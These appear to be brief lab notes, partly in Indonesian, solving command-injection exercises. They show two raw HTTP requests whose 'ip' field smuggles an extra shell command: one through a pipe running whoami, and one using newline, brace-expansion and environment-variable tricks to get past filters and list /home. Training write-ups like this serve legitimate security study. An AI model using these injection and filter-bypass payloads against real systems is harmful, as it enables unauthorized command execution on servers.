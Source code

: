 


# Other Injection Operators


solve soal 3: 

```json
POST / HTTP/1.1
Host: 94.237.49.212:31315
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.49.212:31315/
Content-Type: application/x-www-form-urlencoded
Content-Length: 21
Origin: http://94.237.49.212:31315
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ip=127.0.0.1%7cwhoami
```

saya harus decode ke url

# Identifying Filters

solve soal 4: 

answer: new-line

```json
POST / HTTP/1.1
Host: 94.237.49.212:47980
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.49.212:47980/
Content-Type: application/x-www-form-urlencoded
Content-Length: 61
Origin: http://94.237.49.212:47980
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i

ip=127.0.0.1${LS_COLORS:10:1}%0a{ls,-al}${IFS}${PATH:0:1}home
```
